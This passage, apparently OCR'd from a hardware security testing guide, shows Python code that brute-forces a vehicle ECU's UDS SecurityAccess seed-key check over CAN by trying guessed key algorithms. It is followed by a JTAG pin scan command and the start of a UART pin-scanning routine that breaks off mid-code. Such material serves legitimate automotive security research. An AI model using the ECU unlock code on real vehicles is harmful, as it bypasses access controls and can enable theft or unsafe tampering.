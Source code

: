 ```python
    # Try common key algorithms
    key_algorithms = [
        lambda s: s ^ 0x1234,           # Simple XOR
        lambda s: (s + 0x5555) & 0xFFFF,  # Add constant
        lambda s: s,                    # Echo (insecure)
        lambda s: (~s) & 0xFFFF,        # Bitwise NOT
    ]
    
    for attempt, algorithm in enumerate(key_algorithms):
        if attempt >= max_attempts:
            break
            
        key = algorithm(seed)
        
        # Send key
        key_request = can.Message(
            arbitration_id=ecu_id, 
            data=[0x27, 0x02] + list(key.to_bytes(2, 'big'))
        )
        bus.send(key_request)
        
        response = bus.recv(timeout=1.0)
        if response and response.data[0] == 0x67:
            print(f"Success! Key: {key:04X}")
            return True
        
        print(f"Attempt {attempt+1} failed: {key:04X}")
        time.sleep(1)  # Rate limiting
    
    return False
```

## Hardware Analysis

### Debug Interface Identification

#### JTAG Pinout Detection
```bash
# Use JTAGulator or similar tool
jtag_scan --start-pin=1 --end-pin=20 --voltage=3.3

# Common JTAG pins:
# TMS  - Test Mode Select
# TCK  - Test Clock  
# TDI  - Test Data In
# TDO  - Test Data Out
# TRST - Test Reset (optional)
```

#### UART Detection
```python
import serial
import time

def scan_uart_pins(pin_range):
    """Scan for UART interfaces on test points"""
    
    for tx_pin in pin_range:
        for rx_pin in pin_range:
            if tx_pin == rx_pin:
                continue
                
            try:
```